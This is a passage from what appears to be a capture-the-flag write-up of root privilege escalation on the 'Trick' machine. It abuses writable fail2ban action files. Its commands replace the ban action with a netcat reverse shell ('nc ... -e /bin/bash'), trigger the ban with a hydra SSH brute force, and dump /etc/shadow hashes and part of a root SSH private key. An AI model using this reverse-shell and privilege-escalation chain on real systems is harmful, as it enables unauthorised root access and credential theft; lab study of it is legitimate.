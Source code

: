 Our group, `security`, owns `action.d` however that doesn't make us able to edit the config file. BUT we can delete the original file and replace it with a custom malicious one. The service needs to be restarted for any new actions to take place, hence we're able to run the command `sudo /etc/init.d/fail2ban restart` as user michael.

**Default Action:**
```bash
michael@trick:/etc/fail2ban$ cat /etc/fail2ban/action.d/iptables-multiport.conf
[... snip ...]
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
```

**Malicious Action:**
```bash
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf /tmp/
michael@trick:/etc/fail2ban/action.d$ cat /tmp/iptables-multiport.conf
[... snip ...]
actionban = /usr/bin/nc 10.10.15.1 4488 -e /bin/bash
```

Delete the original file, copy over the malicious, trigger the ban with hydra and get the reverse shell as root. 
```bash
michael@trick:/etc/fail2ban$ rm action.d/iptables-multiport.conf
rm: remove write-protected regular file 'action.d/iptables-multiport.conf'? y
michael@trick:/etc/fail2ban$ cp /tmp/iptables-multiport.conf action.d/iptables-multiport.conf
michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

```bash
➜  trick hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://10.129.37.48 -vV
```

```bash
➜  trick nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.15.1] from (UNKNOWN) [10.129.37.48] 38994
id 
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
395ca4e650fa0df53f1428253feb8b57

cat /etc/shadow
root:$6$lbBzS2rUUVRa6Erd$u2u317eVZBZgdCrT2HViYv.69vxazyKjAuVETHTpTpD42H0RDPQIbsCHwPdKqBQphI/FOmpEt3lgD9QBsu6nU1:19104:0:99999:7:::
michael:$6$SPev7eFL5z0aKFf0$5iLTl9egsGGePEPUnNJlFyw8HHvTwqVC3/THKzW2YD5ZPnbkN7pSOeOkXe9uiUHfOJegJdYT0j3Z9pz.FSX2y0:19104:0:99999:7:::

cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAoSBXc6x1gauygp8zl8Y13QXTwj633MsMv/0YsBzmGiHb1xBadkGC
6a0abDxM4UycoYN82sT7N732cJqL9mWK7ZeGPQX4+RHD0fQnVQY3KCYak7RxQQtilsErhG
VgovwAtnbaKA+tlfsO7IlD3Mv6lbJ/ElD9drwhJOVdEf4IL+8SstVgd0AehVQgnLXd58MK
7tuKX+a/+eBBjzfpA6hWIzTT3koLnMoTWe5uCuhIJiaBUQyvrBQ1C/M4E7rnHw6Rgh9x9d
1LPInu0NMxbw0LAuFaQRcz3ewzEt8M2d639vedwahK5MyuTQS/ZTt33yjoas40kv+NZ5Y0
5vVeP6XxcwAAA8jXOo441zqOOAAAAAdzc2gtcnNhAAABAQChIFdzrHWBq7KCnzOXxjXdBd
PCPrfcywy//RiwHOYaIdvXEFp2QYLprRpsPEzhTJyhg3zaxPs3vfZwmov2ZYrtl4Y9Bfj5
EcPR9CdVBjcoJhqTtHFBC2KWwSuEZWCi/AC2dtooD62V+w7siUPcy/qVsn8SUP12vCEk5V
0R/ggv7xKy1WB3QB6FVCCctd3nwwru24pf5r/54EGPN+kDqFYjNNPeSgucyhNZ7m4K6Egm
JoFRDK+sFDUL8zgTuucfDpGCH3H13Us8ie7Q0zFvDQsC4VpBFzPd7DMS3wzZ3rf2953BqE
rkzK5NBL9lO3ffKOhqzjSS/41nljTm9V4/pfFzAAAAAwEAAQAAAQEAkxF9ITUZ8GjywC1m
HzOpOHu4JIWwtxSTJ65x2VYXZWTgT7Y6i9QSFQ6OnpqPpdmS4g2tadYAY4m9plw6QoW+wE
zdF1gbP+RKM5pCSGYq9DeLbKR392HX9DiPawJJqZqRX/qt94EP9WS544cK7T82E2tgdyx7
nePr8Mx2HhUcDfsbxQlRbM9oKqIBQ0v9GdBotvi+Ri/IQfpEpmS64cU450/DlrwQ358MU9
i8so0KlnAHLYxgzhEzPjPehaRShcsRdhasw1/xVKk7PoBvXzz9r+Ywo5b2htiYzqxt5N5i
```
